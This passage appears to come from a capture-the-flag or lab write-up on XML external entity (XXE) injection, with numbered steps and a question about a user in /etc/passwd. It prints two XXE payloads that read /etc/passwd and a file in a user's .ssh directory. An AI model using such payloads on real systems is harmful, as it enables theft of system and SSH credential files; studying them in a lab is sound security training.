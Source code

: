    ```xml
   <!DOCTYPE any
     [<!ENTITY passwd SYSTEM 'file///etc/passwd'>]
   >

   <any>
     <pass>&passwd;</pass>
   </any>
   ```

3. What is the name of the user in /etc/passwd ?

   ![/etc/passwd output with XXE payload above](./img/D4_etc_passwd_through_in_bound_XXE.png)

4. Payload used :

   ```xml
   <!DOCTYPE any
     [<!ENTITY passwd SYSTEM 'file///home/falcon/.ssh/FILE_NAME'>]
   >

   <any>
     <pass>&passwd;</pass>
   </any>
   ```
